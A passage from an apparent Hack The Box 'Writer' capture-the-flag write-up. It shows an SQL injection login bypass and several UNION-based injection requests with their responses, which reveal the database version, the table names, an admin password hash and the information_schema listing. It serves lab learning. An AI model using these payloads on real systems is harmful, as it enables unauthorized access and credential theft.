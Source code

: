The login formula at http://writer.htb/administrative is vulnerable to SQL injection and can be bypassed by entering "admin'-- -" as user, with any password. The admin dashboard have an interesting upload function but after playing around with it for a few hours I decide to move on and go back to the vulnerable login function.

Play around with Burp repeater with the goal to extract sensitive database information.

__REQUEST 1:__
```bash
POST /administrative HTTP/1.1
 Host: 10.10.11.101
 ..
 uname=admin%27 union all select 1,@@version,3,4,5,6;-&password=123
```

__RESPONSE 1:__
```bash
10.3.29-MariaDB-0ubuntu0.20.04.1
```

### POLLING DB WRITER:
__REQUEST 2:__
```bash
uname=admin%27 union all select 1,concat(0x2c,table_name),3,4,5,6 FROM information_schema.TABLES WHERE table_schema='writer';-&password=123
```

__RESPONSE 2:__
```bash
site,stories,users
```

__REQUEST 3:__
```bash
uname=admin%27 union all select 1,concat(username,0x3a,password),3,4,5,6 from users;-&password=123
```

__RESPONSE 3:__
```bash
admin:118e48794631a9612484ca8b55f622d0
```

### POLLING DB INFORMATION_SCHEMA:
__REQUEST 4:__
```bash
uname=admin%27 union all select 1,concat(table_name,0x2c),3,4,5,6 from information_schema.tables;-&password=123
```

__RESPONSE 4:__
```bash
ALL_PLUGINS,APPLICABLE_ROLES,CHARACTER_SETS,CHECK_CONSTRAINTS,COLLATIONS,COLLATION_CHARACTER_SET_APPLICABILITY,COLUMNS,COLUMN_PRIVILEGES,ENABLED_ROLES,ENGINES,EVENTS,FILES,GLOBAL_STATUS,GLOBAL_VARIABLES,KEY_CACHES,KEY_COLUMN_USAGE,PARAMETERS,PARTITIONS,PLUGINS,PROCESSLIST,PROFILING,REFERENTIAL_CONSTRAINTS,ROUTINES,SCHEMATA,SCHEMA_PRIVILEGES,SESSION_STATUS,SESSION_VARIABLES,STATISTICS,SYSTEM_VARIABLES,TABLES,TABLESPACES,TABLE_CONSTRAINTS,TABLE_PRIVILEGES,TRIGGERS,USER_PRIVILEGES,VIEWS,GEOMETRY_COLUMNS,SPATIAL_REF_SYS,CLIENT_STATISTICS,INDEX_STATISTICS,INNODB_SYS_DATAFILES,USER_STATISTICS,INNODB_SYS_TABLESTATS,INNODB_LOCKS,INNODB_MUTEXES,INNODB_CMPMEM,INNODB_CMP_PER_INDEX,INNODB_CMP,INNODB_FT_DELETED,INNODB_CMP_RESET,INNODB_LOCK_WAITS,TABLE_STATISTICS,INNODB_TABLESPACES_ENCRYPTION,INNODB_BUFFER_PAGE_LRU,INNODB_SYS_FIELDS,INNODB_CMPMEM_RESET,INNODB_SYS_COLUMNS,INNODB_FT_INDEX_TABLE,INNODB_CMP_PER_INDEX_RESET,user_variables,INNODB_FT_INDEX_CACHE,INNODB_SYS_FOREIGN_COLS,INNODB_FT_BEING_DELETED,INNODB_BUFFER_POOL_STATS,INNODB_TRX,INNODB_SYS_FOREIGN,INNODB_SYS_TABLES,INNODB_FT_DEFAULT_STOPWORD,INNODB_FT_CONFIG,INNODB_BUFFER_PAGE,INNODB_SYS_TABLESPACES,INNODB_METRICS,INNODB_SYS_INDEXES,INNODB_SYS_VIRTUAL,INNODB_TABLESPACES_SCRUBBING,INNODB_SYS_SEMAPHORE_WAITS,site,stories,users,
```
